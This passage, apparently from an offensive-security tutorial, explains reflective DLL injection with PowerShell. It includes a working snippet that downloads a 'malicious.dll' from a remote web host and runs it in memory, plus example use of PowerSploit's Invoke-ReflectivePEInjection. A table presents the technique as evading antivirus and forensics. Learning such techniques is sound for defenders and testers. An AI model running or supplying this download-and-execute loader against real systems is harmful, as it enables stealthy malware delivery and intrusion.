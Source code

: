 
### **Using PowerShell for Reflective DLL Injection**

In offensive security, reflective DLL injection via PowerShell is often used in combination with post-exploitation frameworks like **Cobalt Strike** or **Metasploit**. These tools generate shellcode that reflects a DLL into memory, which PowerShell can run.

Here’s an example that demonstrates loading a malicious DLL directly from the web:

```powershell
# Load DLL from a remote source (for instance, from an HTTP server)
$webClient = New-Object System.Net.WebClient
$bytes = $webClient.DownloadData("http://example.com/malicious.dll")

# Reflectively load the DLL into memory
$assembly = [System.Reflection.Assembly]::Load($bytes)

# Get the type and invoke methods
$type = $assembly.GetType("MaliciousNamespace.MaliciousClass")
$method = $type.GetMethod("Execute")
$method.Invoke($null, $null)
```

### **Reflective Loading Tools in PowerShell**

Some tools and frameworks simplify the process of reflective loading for offensive purposes. Here are a few:

1. **Invoke-ReflectivePEInjection**: This script from PowerSploit allows you to inject a PE (Portable Executable) into the memory of a process using reflective DLL injection.
   
   Example usage:

   ```powershell
   Invoke-ReflectivePEInjection -PEBytes $PEBytes -ProcessId 1234
   ```

2. **Invoke-Assembly**: This script allows you to reflectively load a .NET assembly and execute it in memory.

---

### **Reflective Loading vs Traditional Execution**

| **Aspect**                | **Traditional Execution**                                        | **Reflective Loading**                                         |
|---------------------------|------------------------------------------------------------------|----------------------------------------------------------------|
| **Disk I/O**               | Requires writing DLLs to disk before loading.                   | Loads DLLs directly into memory, avoiding disk I/O.            |
| **Detection**              | Easier for antivirus to detect because of file write operations. | Harder to detect since it avoids writing files to disk.        |
| **Forensics**              | Leaves artifacts on disk, making forensic analysis easier.       | Leaves fewer forensic traces because it operates in memory.    |
| **Persistence**            | Could be part of a persistent file or scheduled task.            | Typically used for in-memory execution without persistence.    |

---
